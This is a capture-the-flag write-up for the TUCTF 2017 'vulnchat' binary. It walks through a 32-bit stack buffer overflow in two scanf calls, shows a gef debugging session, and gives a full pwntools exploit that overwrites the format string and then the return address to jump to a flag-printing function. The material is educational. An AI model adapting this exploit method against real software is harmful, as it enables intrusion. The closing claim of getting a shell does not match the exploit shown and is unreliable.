






# tuctf 2017 vulnchat

This was done on `Ubuntu 20.04.4`, although the exact ubuntu version probably doesn't matter too much for this one.

Let's take a look at the binary:




So we can see that we are dealing with a 32 bit elf binary. When we run it, it prompts us for two seperate inputs. The first is a username, and the second is a string that is supposed to make it trust us. Taking a look at the main function in Ghidra we see this:



So we can see, the program essentially calls `scanf` twice. The input is first scanned into `name`, then into `password`. The format specifier is stored on the stack in the `fmtString` variable. We can see in the assembly code that it is initialized to `%30s` (it comes up as `s03%` because it's least endian) (we have to convert the data to a char sequence):



So both times by default it will let us scan in 30 characters, which will let us scan in 30 bytes worth of data. Next we take a look at the stack layout in Ghidra:



So we can see that `password` is stored at offset `-0x31`, `name` is stored at offset `-0x1d`, and `fmtString` is stored at `-0x9`. The `password` char array can hold `0x31 - 0x1d = 0x14` bytes. The `name` char array can hold `0x1d - 0x9 = 0x14` bytes worth of data too. Since we can scan in `30` bytes worth of data, this gives us a 10 byte overflow in both cases. With our given setup we won't be able to get code execution with either overflow alone. However with the first overflow (the one to `name`) we will be able to overwrite the value of `fmtString`. This will allow us to specify how much data the second `scanf` call will scan. With that we will be able to scan in more than enough data to overwrite the saved return address, and get code execution when the `ret` instruction executes. The saved return address is an instruction ptr, of the next instruction after the one that called the current function, so after the current function ends, it can return to the original function.

For what function to call, the `printFlag` function at `0x804856b` seems to be a good candidate. It just prints the context of the flag using `cat` (also to get the flag, we need to have a copy of `flag.txt` in the same directory as the binary):



So let's take a look at how the memory is corrupted during the exploit. First I set a breakpoint for right after the second scanf call:

```
gef➤  b *0x8048639
Breakpoint 1 at 0x8048639
gef➤  r
Starting program: /Hackery/pod/modules/bof_callfunction/tu17_vulnchat/vuln-chat
----------- Welcome to vuln-chat -------------
Enter your username: 15935728
Welcome 15935728!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
15935728: 75395128
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0x1       
$ebx   : 0x0       
$ecx   : 0x1       
$edx   : 0xf7fb089c  →  0x00000000
$esp   : 0xffffd030  →  0xffffd063  →  "%30s"
$ebp   : 0xffffd068  →  0x00000000
$esi   : 0xf7faf000  →  0x001d7d6c ("l}"?)
$edi   : 0x0       
$eip   : 0x08048639  →  <main+175> add esp, 0x8
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
───────────────────────────────────────────────────────────────────── stack ────
0xffffd030│+0x0000: 0xffffd063  →  "%30s"     ← $esp
0xffffd034│+0x0004: 0xffffd03b  →  "75395128"
0xffffd038│+0x0008: 0x37049a10
0xffffd03c│+0x000c: "5395128"
0xffffd040│+0x0010: 0x00383231 ("128"?)
0xffffd044│+0x0014: 0xffffd104  →  0xffffd2b4  →  "/Hackery/pod/modules/bof_callfunction/tu17_vulncha[...]"
0xffffd048│+0x0018: 0xffffd10c  →  0xffffd2f2  →  "CLUTTER_IM_MODULE=xim"
0xffffd04c│+0x001c: 0x31e076a5
─────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8048630 <main+166>       lea    eax, [ebp-0x5]
    0x8048633 <main+169>       push   eax
    0x8048634 <main+170>       call   0x8048460 <__isoc99_scanf@plt>
 →  0x8048639 <main+175>       add    esp, 0x8
    0x804863c <main+178>       push   0x80487ec
    0x8048641 <main+183>       call   0x8048410 <puts@plt>
    0x8048646 <main+188>       add    esp, 0x4
    0x8048649 <main+191>       mov    eax, ds:0x8049a60
    0x804864e <main+196>       push   eax
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln-chat", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x8048639 → main()
────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x08048639 in main ()
gef➤  search-pattern 75395128
[+] Searching '75395128' in memory
[+] In '[heap]'(0x804a000-0x806c000), permission=rw-
  0x804a160 - 0x804a168  →   "75395128"
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
  0xffffd03b - 0xffffd043  →   "75395128"
gef➤  search-pattern %30s
[+] Searching '%30s' in memory
[+] In '/Hackery/pod/modules/bof_callfunction/tu17_vulnchat/vuln-chat'(0x8048000-0x8049000), permission=r-x
  0x80485c1 - 0x80485c5  →   "%30s[...]"
[+] In '/Hackery/pod/modules/bof_callfunction/tu17_vulnchat/vuln-chat'(0x8049000-0x804a000), permission=rw-
  0x80495c1 - 0x80495c5  →   "%30s[...]"
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
  0xffffd063 - 0xffffd067  →   "%30s"
gef➤  x/14x 0xffffd03b
0xffffd03b:    0x39333537    0x38323135    0xffd10400    0xffd10cff
0xffffd04b:    0xe076a5ff    0x33393531    0x38323735    0x04866b00
0xffffd05b:    0x00000008    0xfaf00000    0x73303325    0x00000000
0xffffd06b:    0xdefe8100    0x000001f7
gef➤  i f
Stack level 0, frame at 0xffffd070:
 eip = 0x8048639 in main; saved eip = 0xf7defe81
 Arglist at 0xffffd068, args:
 Locals at 0xffffd068, Previous frame's sp is 0xffffd070
 Saved registers:
  ebp at 0xffffd068, eip at 0xffffd06c
```

So we can see that the format string is stored at `0xffffd063`, which is `20` bytes away from our name at `0xffffd04f`. Our second input begins at `0xffffd03b` which is `0x31` bytes away from the return address at `0xffffd06c`. Also one thing, the memory layout here probably looks a bit weird. The reason for this is `x86` is designed around `4` byte values (although it can handle a lot of different sizes for value types), so most addresses (with the except of variable length ones) are aligned to either `0x0`, `0x4`, `0x8`, or `0xc`. However our char array (which can be a wide array of values) starts at `0xffffd03b`, so it messes up the alignment when we view the memory using it as a reference.

Also, we can figure out the offsets via looking at the ghidra offsets. We see `name` is at offset `-0x1d`, and `fmtString` is at offset `-0x9`. So with the input that starts at `name` after `0x14` (`0x1d - 0x9 = 0x14`) bytes, we'll reach `fmtString`. Also `password` is stored at offset `-0x31`, and since ghdira puts the stack offsets from the saved return address, it is `0x31` bytes away (I have seen this be wrong in some instances).

Putting it all together, we get the following exploit:
```
from pwn import *

# Establish the target process
target = process('./vuln-chat')

# Print the initial text
print(target.recvuntil(b"username: "))

# Form the first payload to overwrite the scanf format string
payload0 = b""
payload0 += b"0"*0x14 # Fill up space to format string
payload0 += b"%99s" # Overwrite it with "%99s"

# Send the payload with a newline character
target.sendline(payload0)

# Print the text up to the second scanf call
print(target.recvuntil(b"I know I can trust you?"))

# From the second payload to overwrite the return address
payload1 = b""
payload1 += b"1"*0x31 # Filler space to return address
payload1 += p32(0x804856b) # Address of the print_flag function

# Send the second payload with a newline character
target.sendline(payload1)

# Drop to an interactive shell to view the rest of the input
target.interactive()
```

When we run it:



Just like that we got a shell!
